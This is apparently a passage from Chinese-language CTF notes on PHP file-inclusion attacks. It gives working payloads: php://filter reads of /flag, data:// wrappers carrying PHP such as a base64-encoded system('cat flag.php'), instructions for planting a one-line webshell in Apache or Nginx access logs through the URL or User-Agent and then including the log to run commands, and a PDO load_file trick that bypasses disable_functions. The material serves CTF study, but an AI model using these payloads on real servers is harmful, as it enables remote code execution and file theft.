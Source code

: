 eg: `<?php system("ls");?>`

#### php://filter#1

`php://filter/read=filter_name/resource=resource_url`
filter_name：要应用的过滤器名称
resource_url：要读取的资源的URL
eg:`file=php://filter/read=convert.base64-encode/resource=/flag`
详细见 `##### php://filter`

#### data协议

data协议可以用来执行代码

data://text/plain;base64,
file_get_contents()的$filename参数不仅仅为本地文件路径，还可以是一个网络路径URL
eg:`text=data://text/plain;base64,d2VsY29tZSB0byB0aGUgempjdGY=`
`file=data://text/plain,<?php%20phpinfo();?>`
`data://text/plain;base64,PD9waHAgc3lzdGVtKCdjYXQgZmxhZy5waHAnKTs/Pg==`#cat flag.php

#### 日志文件包含漏洞

- apache服务器
日志存放文件位置：

```bash
/var/log/apache/access.log
/var/log/apache2/access.log
/var/www/logs/access.log
/var/log/access.log
/etc/httpd/logs/access_log
/var/log/httpd/access_log
配置：
/etc/apache2/apache2.conf
/etc/httpd/conf/httpd.conf
```

apache日志文件存放着我们输入的url参数
我们可以通过在url参数中写入一句话木马，进行执行，从而将一句话木马写入到日志文件中，我们可以通过包含写入木马的日志文件，从而进行命令执行。

- nginx服务器
日志存放位置：

```bash
日志：
/var/log/nginx/access.log
/var/log/nginx/error.log
配置：
/etc/nginx/nginx.conf
/usr/local/nginx/conf/nginx.conf
```

由本地日志文件可以看到nginx服务器中记录的是每次请求user-agent报文，那么我们可以通过包含nginx'服务器的日志文件，然后在user-agent服务器中写入木马语句进行注入

#### 绕过disable_function

```php
#pdo运用mysql读取文件
c=
try {
    $dbh = new PDO('mysql:host=localhost;dbname=ctftraining', 'root',
        'root');
 
    foreach ($dbh->query('select load_file("/flag36.txt")') as $row) {
        echo ($row[0]) . "|";
    }
    $dbh = null;
} catch (PDOException $e) {
    echo $e->getMessage();
```